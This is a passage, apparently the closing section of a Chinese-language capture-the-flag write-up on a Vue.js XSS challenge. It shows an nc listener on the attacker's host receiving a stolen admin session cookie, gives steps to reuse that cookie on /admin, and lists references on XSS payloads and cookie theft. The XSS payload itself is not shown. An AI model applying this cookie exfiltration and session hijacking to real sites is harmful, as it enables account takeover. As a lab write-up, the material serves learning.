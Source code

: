 ## Exp

拿上面的payload随便注册一个用户，访问`/invite`接口，成功收到cookie

```bash
root@iZ7xv8mogva855e0yhraz6Z:~# nc -lvnp 80
listening on [any] 80 ...
connect to [172.28.228.144] from (UNKNOWN) [120.236.177.62] 35062
GET /session=MTcyNzE3MDcyNHxEWDhFQVFMX2dBQUJFQUVRQUFCQ180QUFBUVp6ZEhKcGJtY01CZ0FFZFhWcFpBWnpkSEpwYm1jTUpnQWtaRFV3WlRjeU9EWXRaVFUwTmkwME5qRmlMV0UzWXpNdE5tVXdNV1k0TmpreU5XVXp8UiFPE4W7KiVhtjeFHmGd8SWI3EjkfsYh1TJ_wrPgfog= HTTP/1.1
Host: x.x.x.x
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

最后换上admin的cookie访问`/admin`接口即可

# 参考

- <https://github.com/ViktorMares/vue-js-xss-payload-list>
- <https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e>
- <https://cn.vuejs.org/guide/essentials/template-syntax#text-interpolation>
- <https://v2.cn.vuejs.org/v2/guide/syntax.html#%E6%96%87%E6%9C%AC>
- <https://stackoverflow.com/questions/71769586/what-is-constructor-constructor-in-javascript>
- <https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets>